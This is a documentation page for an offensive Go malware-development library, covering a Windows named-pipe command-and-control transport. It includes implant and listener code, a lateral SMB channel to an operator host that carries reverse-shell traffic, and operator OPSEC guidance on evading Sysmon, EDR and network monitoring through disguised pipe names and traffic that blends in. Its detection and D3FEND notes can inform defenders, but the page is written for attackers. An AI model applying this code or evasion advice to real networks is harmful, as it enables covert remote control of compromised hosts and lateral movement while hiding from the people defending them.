

# Named-pipe transport

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

Windows named-pipe implementation of the
[`c2/transport`](transport.md) `Transport` and `Listener` interfaces.
Lets implants beacon over **local IPC** (no socket, no firewall, no
NIDS visibility) or over **SMB** to another host (lateral C2 routed
through the file-share redirector). Pipe traffic is the textbook
example of "looks like normal Windows".

| You want… | Pipe path | Crosses host? |
|---|---|---|
| Local IPC C2 (parent ↔ child, two implants on same host) | `\\.\pipe\xxx` | No — kernel-only. Invisible to NIDS / netflow. |
| Lateral C2 from one host to another over SMB | `\\target-host\pipe\xxx` | Yes — over SMB to the target. Looks like normal Windows file-share traffic. |
| Long-running listener on the agent host | [`Listen`](#listen) | One server pipe; accepts multiple connections sequentially or via reconnect-on-drop |

What this DOES achieve:

- Local-IPC C2 has zero network footprint — netflow, firewall,
  NIDS see nothing. Defender memory-scan or process-tree
  analysis is the only path that catches it.
- SMB pipe lateral C2 blends into normal Windows file-share
  traffic. Networks that allow `\\dc01\sysvol` access already
  allow your pipe.
- Same `Transport` interface as TCP / TLS / uTLS — every shell
  / stager / beacon in maldev works over named pipes by
  changing one config field.

What this does NOT achieve:

- **Local pipes are visible to local-host telemetry** — Sysmon
  EID 17/18 (named-pipe create / connect) catches every
  pipe op. EDRs match on suspicious-process / suspicious-pipe
  combinations. Use random-looking pipe names to dodge
  static rules.
- **SMB requires authentication** — you need valid credentials
  for the target host, OR an existing logon session that
  carries them. Lateral movement prerequisite.
- **No encryption of pipe content** — wrap your payload with
  [`crypto`](../crypto/payload-encryption.md) if a host-local
  packet capture (Wireshark with NPF driver) is in scope.

## Primer

Most C2 traffic leaves the host over TCP / HTTP, where firewalls and
NIDS inspect every packet. Windows named pipes are an on-host IPC
channel that the OS uses constantly — SMB, RPC, the print spooler,
LSASS, every COM out-of-process server. Two processes communicating
over a pipe leave **zero** network artefacts; cross-host pipes (over
the SMB redirector) leave SMB session-auditing entries that look
identical to legitimate file-share use.

The package implements both sides:

- `Listener` (`namedpipe.NewListener(name)`) — server-side, accepts
  agents on `\\.\pipe\<name>`.
- `Transport` (`namedpipe.New(name, timeout)`) — client-side,
  connects to either `\\.\pipe\<name>` (local) or
  `\\<host>\pipe\<name>` (cross-host SMB).

Either side plugs into the rest of the C2 stack:
[`c2/shell`](reverse-shell.md) takes a `Transport`,
[`c2/multicat`](multicat.md) takes a `Listener`.

## How it works



Each `Accept` returns a connected pipe instance; the listener
immediately spawns the next instance so subsequent clients do not
block.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/transport/namedpipe`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/transport/namedpipe) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple (local IPC)

Server (operator's relay tool on the same host):

```go
ln, _ := namedpipe.NewListener(`\\.\pipe\c2agent`)
conn, _ := ln.Accept(context.Background())
```

Implant:

```go
p := namedpipe.New(`\\.\pipe\c2agent`, 5*time.Second)
_ = p.Connect(context.Background())
_, _ = p.Write([]byte("hello"))
```

### Composed (lateral SMB pipe)

Server on `OPERATOR-HOST`:

```go
ln, _ := namedpipe.NewListener(`\\.\pipe\lat-c2`)
```

Agent on a different domain-joined host (with credentials to reach
the share):

```go
p := namedpipe.New(`\\OPERATOR-HOST\pipe\lat-c2`, 30*time.Second)
_ = p.Connect(context.Background())
```

The Windows SMB redirector tunnels the pipe over `tcp/445`. To NIDS
this looks like an SMB session; a typical defender focused on web /
TLS traffic does not parse SMB content.

### Advanced (named-pipe shell + multicat)

Operator side combines `multicat` with the pipe listener:

```go
import (
    "context"

    "github.com/oioio-space/maldev/c2/multicat"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/c2/transport/namedpipe"
)

ln, _ := namedpipe.NewListener(`\\.\pipe\c2agent`)
adapter := transport.WrapNetListener(ln) // expose as transport.Listener
mgr := multicat.New()
go mgr.Listen(context.Background(), adapter)
```

Implant uses the same pipe transport on the agent side via
`c2/shell.New`.

### Complex (pipe + named-pipe ACL hardening)

Production pipe servers need an explicit `SecurityDescriptor` so
unprivileged code on the same host cannot connect. The package's
default DACL allows `Everyone` for ease of testing — overwrite it
before exposing across hosts. Refer to
[`c2/transport/namedpipe/listener_windows.go`](../../../c2/transport/namedpipe/listener_windows.go)
for the exact `SECURITY_ATTRIBUTES` shape.

See `ExampleNewListener` in
[`namedpipe_example_test.go`](../../../c2/transport/namedpipe/namedpipe_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Pipe `\\.\pipe\<custom-name>` opened by an unusual process | Sysmon Event 17/18 (PipeCreated / PipeConnected) — most defenders are not subscribed by default |
| Pipe name not matching common services (`spoolss`, `lsass`, `wkssvc`, `srvsvc`, …) | Hunt rules — pick a name that mimics a legitimate service to blend |
| Cross-host SMB session to `\\target\pipe\<name>` | Windows Security Event 5145 (file-share access) when audit policy is set |
| Pipe acting as full-duplex shell I/O channel | Behavioural EDR rules (rare; the high signal is the pipe + child process pairing) |

**D3FEND counters:**

- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/)
  — SMB-traffic profiling.
- [D3-OTF](https://d3fend.mitre.org/technique/d3f:OutboundTrafficFiltering/)
  — egress filter blocking outbound `tcp/445` outside expected
  fileservers.

**Hardening for the operator:** name the pipe to mimic a legitimate
service (e.g. `\\.\pipe\spoolss-<rand>`); set a strict DACL that
only the implant's user can connect to; lateral SMB pipes assume
`tcp/445` is open between hosts — verify before relying on the
technique.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Application Layer Protocol: Web Protocols | pipe over SMB lateral path | D3-NTA |
| [T1021.002](https://attack.mitre.org/techniques/T1021/002/) | Remote Services: SMB/Windows Admin Shares | when bound across hosts via SMB redirector | D3-NTA |

## Limitations

- **Windows-only.** No Unix-domain-socket fallback in this package.
- **DACL defaults are permissive.** Override `SECURITY_ATTRIBUTES`
  on the listener before exposing across users.
- **SMB pipe needs `tcp/445` connectivity** between hosts; many
  segmented networks deny it.
- **Bidirectional only.** No half-duplex / shared-channel mode.

## See also

- [Transport](transport.md) — generic interface.
- [Reverse shell](reverse-shell.md) — primary consumer over local
  pipes.
- [Multicat](multicat.md) — operator-side accept loop.
- [Microsoft, *Named Pipes Overview*](https://learn.microsoft.com/en-us/windows/win32/ipc/named-pipes)
  — primer.
